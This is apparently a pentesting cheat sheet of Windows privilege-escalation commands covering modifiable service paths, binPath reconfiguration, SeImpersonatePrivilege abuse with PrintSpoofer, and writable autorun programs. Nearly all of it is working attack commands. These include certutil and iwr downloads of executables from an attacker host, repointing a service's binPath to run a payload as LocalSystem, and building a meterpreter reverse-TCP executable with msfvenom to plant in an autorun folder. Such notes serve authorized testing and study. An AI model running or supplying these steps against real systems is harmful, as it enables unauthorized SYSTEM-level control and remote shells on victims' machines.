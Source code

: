 -> Exploitation - windows
```
iwr -uri <ip>/<service_eecutable_name> -Outfile <service_executable_name>
move <name_inside_the_path>.exe <service_path>  
```
```
sc stop <service_name>
sc start <service_name>
```
or  
```
shutdown /r
```

## binPath - Services [PrivEsc]
-> Detection
```
. .\PowerUp.ps1
Get-ModifiableService -Verbose
```
or
```
Get-ModifiableService -Verbose
wmic service get Name,State,PathName | findstr "Running" | findstr "Program"  
wmic service get Name,State,PathName | findstr "Program"  
icacls <pathname>  
//(F) and (i) (F)
accesschk.exe -wuvc <service_name>
//RW Everyone  
//  SERVICE_CHANGE_CONFIG
sc qc <service_name>
```

-> Exploitation - Windows [PrivEsc]
```
certutil -urlcache -f http://10.9.1.137:803/ok.exe ok.exe  
sc config <name_ service> binPath="C:\Users\files\ok.exe" obj= LocalSystem  
sc stop <service_name>  
sc query <service_name>  
sc start <service_name>  
```

https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite  


### SeImpersonatePrivilege
```
PrintSpoofer64.exe -i -c cmd
```
https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

### Autorun
-> Detection - windows
```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu ""C:\Program Files\Autorun Program"  
\\FILE_ALL_ACCESS
```
-> Exploitation - kali
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe -o program.exe
```
```
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile program.exe)
move program.exe "C:\Program Files\Autorun Program"
logoff
```
